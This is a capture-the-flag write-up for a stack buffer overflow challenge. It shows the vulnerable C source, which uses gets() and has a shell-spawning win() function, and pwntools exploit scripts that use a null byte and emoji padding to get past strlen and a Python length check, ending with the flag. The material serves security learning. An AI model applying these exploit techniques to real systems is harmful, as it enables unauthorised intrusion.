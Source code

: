 # 1.0 Challenge
1. strlen -> /x00 to stop the checking
2. python wrapper only 0xff -> can use emoji in python on 1 length, but for c is 4 bytes

# 2.0 Analysis
this is a beginner and advanced challenge for me 
the source code very simple 
I even though I can finish it very fast but NOT 
this is trap shit 

```c
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
python wrapper
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

needed ROP
```
ret = 0x000000000040101a
win = 0x0000000000401262
```

# 3.0 Solution
## 3.1 OFFSET
ok 我们第一个要想的问题是 offset 
![[attachments/Pasted image 20250714170240.png]]
我一开始以为是直接0x110+8 + win 然后发现不work ？？？？？
0x118 = 280

如果不成功马上 请想起来 有ret alignment !!!!!
so 280 + ret + win
然后还是不能 .... 

## 3.2 STRLEN
这个时候想一下 为什么他没有直接断掉
so 要add \x00 null terminator
可是也要算好整个offset 
`[\x00 + offset] 这边只能是280 + ret 8 + win 8`
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += b"a"*(offset)
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

OK local pass

## 3.3 len(payload) > FF
看python 只能ff 如果直接pass 一定超过 因为我的整个payload 288 + 8
所以直接把offset 改成 unicode 就不会被 python check 
😎 python len: 1 c strlen: 4
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += "😃".encode()* ((offset)//4)
binary += b'aaa' # for alignment 
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

## 3.4 FULL SCRIPT
![[attachments/c1_3.py]]

# 4.0 FLAG 
```
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
```